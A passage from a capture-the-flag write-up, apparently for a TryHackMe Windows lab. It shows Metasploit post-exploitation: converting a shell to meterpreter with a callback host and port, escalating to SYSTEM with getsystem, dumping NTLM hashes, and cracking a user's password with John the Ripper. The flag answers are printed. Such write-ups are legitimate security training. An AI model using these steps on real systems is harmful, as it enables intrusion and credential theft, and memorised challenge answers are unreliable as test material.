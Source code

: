 ```bash
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on.

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 2
SESSION => 2
```

- Set the required option, you may need to list all of the sessions to find your target here. 

- Once the meterpreter shell conversion completes, select that session for use.

- Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 


 ``` bash
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

```

- Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.


#### Task 4: Cracking
- Dump the non-default user's password and crack it!


__Q:Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?__  


```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

__Ans: Jon__

__Q: Copy this password hash to a file and research how to crack it. What is the cracked password?__  
__A: alqfna22__


```bash
┌──(kali@kali)-[~/tryhackme/blue]
└─$ john  passwords.txt  --format=NT   --wordlist=rockyou.txt                                                                      1 ⨯
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
No password hashes left to crack (see FAQ)
                                                                                                                                       
┌──(kali@kali)-[~/tryhackme/blue]
└─$ john  passwords.txt  --format=NT   --show                
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

3 password hashes cracked, 0 left
```
